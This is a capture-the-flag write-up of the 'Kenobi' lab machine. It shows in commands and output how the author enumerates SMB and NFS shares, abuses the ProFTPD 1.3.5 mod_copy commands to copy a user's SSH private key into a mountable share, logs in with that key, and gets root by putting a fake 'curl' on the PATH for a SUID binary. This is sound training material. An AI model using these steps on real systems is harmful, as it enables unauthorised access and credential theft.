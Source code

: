 # Kenobi
----

## Port Scanning
```sh
nmap -sS -sV -O kenobi >> ports.txt

Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-09 21:10 EDT
Nmap scan report for kenobi (10.10.75.33)
Host is up (0.17s latency).
Not shown: 993 closed tcp ports (reset)
PORT     STATE SERVICE      VERSION
21/tcp   open  ftp          ProFTPD 1.3.5
22/tcp   open  ssh          OpenSSH 7.2p2 Ubuntu 4ubuntu2.7 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http         Apache httpd 2.4.18 ((Ubuntu))
111/tcp  open  rpcbind      2-4 (RPC #100000)
139/tcp  open  netbios-ssn?
445/tcp  open  netbios-ssn  Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
2049/tcp open  nfs          2-4 (RPC #100003)
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).

```
### Samba
![alt text](image.png)
- **Samba is the standard Windows interoperability suite of programs for Linux and Unix. It allows end users to access and use files, printers and other commonly shared resources on a companies intranet or internet. Its often referred to as a network file system. Samba is based on the common client/server protocol of Server Message Block (SMB). SMB is developed only for Windows, without Samba, other computer platforms would be isolated from Windows machines, even if they were part of the same network.**
![alt text](image-1.png)
```sh
└─$ nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse 10.10.75.33

PORT    STATE SERVICE
445/tcp open  microsoft-ds

Host script results:
| smb-enum-shares: 
|   account_used: guest
|   \\10.10.75.33\IPC$: 
|     Type: STYPE_IPC_HIDDEN
|     Comment: IPC Service (kenobi server (Samba, Ubuntu))
|     Users: 1
|     Max Users: <unlimited>
|     Path: C:\tmp
|     Anonymous access: READ/WRITE
|     Current user access: READ/WRITE
|   \\10.10.75.33\anonymous: 
|     Type: STYPE_DISKTREE
|     Comment: 
|     Users: 0
|     Max Users: <unlimited>
|     Path: C:\home\kenobi\share
|     Anonymous access: READ/WRITE
|     Current user access: READ/WRITE
|   \\10.10.75.33\print$: 
|     Type: STYPE_DISKTREE
|     Comment: Printer Drivers
|     Users: 0
|     Max Users: <unlimited>
|     Path: C:\var\lib\samba\printers
|     Anonymous access: <none>
|_    Current user access: <none>

Nmap done: 1 IP address (1 host up) scanned in 27.01 seconds
                                                
```
- **SMB enumeration**
```sh
nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse 10.10.75.33
```
- **Getting into SMB anonymous client**
```sh
smbclient //10.10.75.33/anonymous
```
- **Viewing the file we use `more filename.txt` in smb client**

- **For recursively downloading smb client**
```sh
smbget -R smb://10.10.75.33/anonymous
```

### RPCbind

![alt text](image-2.png)
```sh
└─$ nmap -p 111 --script=nfs-ls,nfs-statfs,nfs-showmount 10.10.75.33
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-09 21:33 EDT
Nmap scan report for kenobi (10.10.75.33)
Host is up (0.17s latency).

PORT    STATE SERVICE
111/tcp open  rpcbind
| nfs-showmount: 
|_  /var *
                                          
```
- We can also check via nfs showmount because nfs is also open port

```sh
└─$ showmount -e kenobi
Export list for kenobi:
/var *
```

### ProFtpD

```sh
└─$ searchsploit proftp 1.3.5
------------------------------------------------- ---------------------------------
 Exploit Title                                   |  Path
------------------------------------------------- ---------------------------------
ProFTPd 1.3.5 - 'mod_copy' Command Execution (Me | linux/remote/37262.rb
ProFTPd 1.3.5 - 'mod_copy' Remote Command Execut | linux/remote/36803.py
ProFTPd 1.3.5 - 'mod_copy' Remote Command Execut | linux/remote/49908.py
ProFTPd 1.3.5 - File Copy                        | linux/remote/36742.txt
-----------------------------
```

![alt text](image-3.png)

```sh
└─$ nc kenobi 21
220 ProFTPD 1.3.5 Server (ProFTPD Default Installation) [10.10.75.33]
SITE CPFR /home/kenobi/.ssh/id_rse\
550 /home/kenobi/.ssh/id_rse\: No such file or directory
SITE CPFR /home/kenobi/.ssh/id_rsa 
350 File or directory exists, ready for destination name
 SITE CPTO /var/tmp/id_rsa
500 Invalid command: try being more creative
SITE CPFR /home/kenobi/.ssh/id_rsa 
350 File or directory exists, ready for destination name
SITE CPTO /var/tmp/id_rsa
250 Copy successful

```
- Now its time for mounting to `/var`

```sh
──(root㉿kali)-[/mnt]
└─# mount kenobi:/var /mnt/kenobi 
                                                                                   
┌──(root㉿kali)-[/mnt]
└─# ls -la /mnt/kenobi 
total 56
drwxr-xr-x 14 root root  4096 Sep  4  2019 .
drwxr-xr-x  3 root root  4096 Aug  9 21:45 ..
drwxr-xr-x  2 root root  4096 Sep  4  2019 backups
drwxr-xr-x  9 root root  4096 Sep  4  2019 cache
drwxrwxrwt  2 root root  4096 Sep  4  2019 crash
drwxr-xr-x 40 root root  4096 Sep  4  2019 lib
drwxrwsr-x  2 root staff 4096 Apr 12  2016 local
lrwxrwxrwx  1 root root     9 Sep  4  2019 lock -> /run/lock
drwxrwxr-x 10 root _ssh  4096 Sep  4  2019 log
drwxrwsr-x  2 root mail  4096 Feb 26  2019 mail
drwxr-xr-x  2 root root  4096 Feb 26  2019 opt
lrwxrwxrwx  1 root root     4 Sep  4  2019 run -> /run
drwxr-xr-x  2 root root  4096 Jan 29  2019 snap
drwxr-xr-x  5 root root  4096 Sep  4  2019 spool
drwxrwxrwt  6 root root  4096 Aug  9 21:42 tmp
drwxr-xr-x  3 root root  4096 Sep  4  2019 www

```

```sh
┌──(root㉿kali)-[/mnt]
└─# cp /mnt/kenobi/tmp/id_rsa .
                                                                                   
┌──(root㉿kali)-[/mnt]
└─# ls                                      
id_rsa  kenobi
                                                                                   
┌──(root㉿kali)-[/mnt]
└─# ls -la            
total 16
drwxr-xr-x  3 root root 4096 Aug  9 21:49 .
drwxr-xr-x 20 root root 4096 Aug  9 21:45 ..
-rw-r--r--  1 root root 1675 Aug  9 21:49 id_rsa
drwxr-xr-x 14 root root 4096 Sep  4  2019 kenobi
                                                   
```

- **Copying file to current folder from nfs mount**

```sh
 cp /mnt/kenobi/tmp/id_rsa .
```  

```sh
                                                                                   
┌──(root㉿kali)-[/mnt]
└─# sudo chmod 600 id_rsa 
                                                                                   
┌──(root㉿kali)-[/mnt]
└─# ssh -i id_rsa kenobi@10.10.75.33
The authenticity of host '10.10.75.33 (10.10.75.33)' can't be established.
ED25519 key fingerprint is SHA256:GXu1mgqL0Wk2ZHPmEUVIS0hvusx4hk33iTcwNKPktFw.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.75.33' (ED25519) to the list of known hosts.
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.8.0-58-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

103 packages can be updated.
65 updates are security updates.


Last login: Wed Sep  4 07:10:15 2019 from 192.168.1.147
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

kenobi@kenobi:~$ ls
share  user.txt
kenobi@kenobi:~$ cat user.txt 
d0b0f3f53b6caa532a83915e19224899
```

### PrivEsc

![alt text](image-4.png)

```sh
kenobi@kenobi:~$ cd /tmp
kenobi@kenobi:/tmp$ echo /bin/sh > curl
kenobi@kenobi:/tmp$ chmod 777 curl
kenobi@kenobi:/tmp$ export PATH=/tmp:$PATH
kenobi@kenobi:/tmp$ /usr/bin/menu

***************************************
1. status check
2. kernel version
3. ifconfig
** Enter your choice :1
# id
uid=0(root) gid=1000(kenobi) groups=1000(kenobi),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),110(lxd),113(lpadmin),114(sambashare)
# cat /root/root.txt
177b3cd8562289f37382721c28381f02

```
